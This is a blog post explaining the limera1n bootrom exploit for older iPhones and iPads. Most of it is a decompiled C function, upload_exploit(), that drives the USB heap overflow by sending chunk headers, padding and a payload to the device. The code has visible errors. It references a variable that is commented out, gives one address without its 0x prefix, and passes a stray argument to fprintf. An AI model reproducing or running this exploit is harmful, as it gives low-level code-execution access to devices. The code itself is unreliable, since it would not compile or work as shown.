 ```yaml
---
layout: post
title: "What is limera1n?"
description: "Devices with the limera1n vulnerability are the most fun devices to play with."
category: articles
tags: [limera1n, iphone 4, info]
image:
  feature: "limera1npaper.png"
---
```


## limera1n
limera1n is a bootrom exploit found by `geohot` that works on all A4 and below devices. The last devices being the iPhone 4 GSM (1,1)(1,3) and the iPhone 4 CDMA (3,3). It is the last public bootrom exploit to be released to this day. A bootrom exploit is an exploit that can be run on a device with any iOS version. The reason I am talking about limera1n is because it will be mentioned often in my posts. I like to mess around with this exploit a lot and find out all of the cool stuff I can do with it. It has been made into a tethered jailbreak ([Mac](http://limera1n.com/limera1n.zip), [Windows](http://limera1n.com/limera1n.exe)) by geohot which you can untether using the `0x24000 Segment Overflow` exploit or the `Packet Filter Kernel Exploit`. 


## Code Executed
{% highlight c %}
signed int __cdecl upload_exploit() {
int device_type;
signed int payload_address;
int free_address;
int deviceerror;
char *chunk_headers_ptr;
unsigned int sent_counter;
//int v6;
signed int result; 
//signed int v8;
int recv_error_code;
signed int payload_address2;
signed int padding_size;
char payload;
char chunk_headers;
//int v14;
//v14 = *MK_FP(__GS__, 20);
device_type = *(_DWORD *)(device + 16);

if ( device_type == 8930 ) {
padding_size = 0x2A800;
payload_address = 0x8402B001;
free_address = 0x8403BF9C;
} else {
payload_address = 0x84023001;
padding_size = 0x22800;
// free_address = (((device_type == 8920) – 1) & 0xFFFFFFF4) – 0x7BFCC05C;
if(device_type == 8920) free_address = 0x84033FA4;
else free_address = 84033F98;
}

memset(&payload, 0, 0x800);
memcpy(&payload, exploit, 0x230);

if (libpois0n_debug) {
//v8 = payload_address;
fprintf(stderr, 1, "Resetting device counters\n");
//payload_address = v8;
}

payload_address2 = payload_address;
deviceerror = irecv_reset_counters(client);

if ( deviceerror ) {
irecv_strerror(deviceerror);
fprintf(stderr, 1, &aCannotFindS[12]);
result = -1;
} else {
memset(&chunk_headers, 0xCC, 0x800);
chunk_headers_ptr = &chunk_headers;

do {
*(_DWORD *)chunk_headers_ptr = 1029;       
*((_DWORD *)chunk_headers_ptr + 1) = 257;
*((_DWORD *)chunk_headers_ptr + 2) = payload_address2;  
*((_DWORD *)chunk_headers_ptr + 3) = free_address;
chunk_headers_ptr += 64;
} while ((int *)chunk_headers_ptr != &v14);

if (libpois0n_debug)
fprintf(stderr, 1, "Sending chunk headers\n");

sent_counter = 0;
irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);
memset(&chunk_headers, 0xCC, 0x800);

do {
sent_counter += 0x800;
irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);
} while (sent_counter < padding_size);

if (libpois0n_debug)
fprintf(stderr, 1, "Sending exploit payload\n");

irecv_control_transfer(client, 0x21, 1, 0, 0, &payload, 0x800);

if (libpois0n_debug)
fprintf(stderr, 1, "Sending fake data\n");

memset(&chunk_headers, 0xBB, 0x800);
irecv_control_transfer(client, 0xA1, 1, 0, 0, &chunk_headers, 0x800);
irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);

if (libpois0n_debug)
fprintf(stderr, 1, "Executing exploit\n");

irecv_control_transfer(client, 0x21, 2, 0, 0, &chunk_headers, 0);
irecv_reset(client);
irecv_finish_transfer(client);

if (libpois0n_debug) {
fprintf(stderr, 1, "Exploit sent\n");
if (libpois0n_debug)
fprintf(stderr, 1, "Reconnecting to device\n");
}

client = (void *)irecv_reconnect(client, 2);

if (client) {
result = 0;
} else {
if (libpois0n_debug) {
recv_error_code = irecv_strerror(0);
fprintf(stderr, 1, &aCannotFindS[12], recv_error_code);
}
fprintf(stderr, 1, "Unable to reconnect\n");
result = -1;
}
}

// compiler stack check
//if (*MK_FP(__GS__, 20) != v14)
//    __stack_chk_fail(v6, *MK_FP(__GS__, 20) ^ v14);

return result;
}
{% endhighlight %}